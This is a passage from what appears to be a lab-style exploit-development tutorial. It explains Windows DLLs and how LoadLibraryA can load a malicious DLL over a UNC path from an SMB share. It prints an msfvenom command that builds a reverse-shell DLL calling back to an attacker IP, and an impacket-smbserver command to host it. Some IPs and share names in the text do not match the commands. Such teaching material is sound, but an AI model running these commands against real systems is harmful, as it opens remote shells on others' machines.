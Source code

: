 DLLs are commonly used in Windows applications for a [number of reasons](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library#dll-advantages). One of the first to be mentioned is that fewer system resources will be used when the DLL is used by many processes as rather than loading and linking the library for each individual process, the DLL will be loaded into memory once and each process that uses the DLL will be linked against it. DLLs also allow programs to load the correct DLL at runtime based on the requirements and conditions of the system, which promotes more modular systems. Finally, we can see that if a program uses DLLs, they do not need to be recompiled and relinked if the DLL is modified and replaced; only if the function signature or returned values changes would the executable need to be modified and recompiled.

This is why DLLs are used in the Windows OS to provide API wrappers to the OS Systemcalls; in addition to the fact programmers rarely make direct system calls today, the interrupt signals used to control the Windows system calls are not the most stable and change from time to time. You could use some additional [online resources](https://j00ru.vexillium.org/syscalls/nt/64/) that track the systemcall interfaces and recompile your program for each build but, it is much simpler to use the APIS provided in the DLLs!


We will be using the fact that the [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function can accept a location string in the form of a [Universal Naming Convention (UNC)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/62e862f4-2a51-452e-8eeb-dc4ff5ee33cc) string. This allows us to use the `LoadLibraryA` function to load a malicious DLL hosted on a remote [SMB share](https://learn.microsoft.com/en-us/windows-server/storage/file-server/file-server-smb-overview). We will use the [Impacket-Scripts](https://www.kali.org/tools/impacket-scripts/) package of exploitation tools to host a SMB share on the Kali Linux machine!

We can **generate** the malicious DLL using [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) as it is capable of formatting output for use as a DLL. In this case, the shellcode will be contained in the DLL Main function previously discussed!

```
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=none -f dll -o mal.dll
```
* `-a x86`: Specify this is against a 32-bit program.
* `--platform windows`: Specify this is against a process on a Windows system.
* `-p `: Payload we are generating shellcode for.
    * `windows/shell_reverse_tcp`: Reverse TCP payload for Windows
    * `LHOST=10.0.2.7`: The remote listening host's IP, in this case, our Kali machine's IP, `10.0.2.7`.
    * `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    * `EXITFUNC=none`: If the program runs without an exit function, it will likely crash after this finishes executing!
* `-f`: The output format.
    * `dll`: Format for use as a DLL.

Now we know from the [UNC](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/62e862f4-2a51-452e-8eeb-dc4ff5ee33cc) datatype that we have to provide a string in the form `= "\\" host-name "\" share-name  [ "\" object-name ]` when attempting to load and attach a DLL to our process. In our case, this could be something like `\\10.0.2.15\ABCD\mal.dll` where `10.0.2.15` is the IP of the Kali, `A` is the name of our SMB share and `mal.dll` is the malicious DLL object we are sharing. We can generate an SMB share using the following command: This should be run in the directory that contains the malicious DLL `mal.dll`.
```
$ sudo impacket-smbserver -smb2support ABCD .
```
* `sudo`: This command and operation require root privileges to bind to the well-known SMB port 445.
* [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver):  This is the command the launches a SMB server and add a share as specified.
* `smb2support`: Enable SMB2 Support.
* `A`: Name of the current Share. This is chosen to be short as we would complicate the shellcode generation otherwise.
* `.`: This is the current directory we are in, we can specify a path to share a specific directory.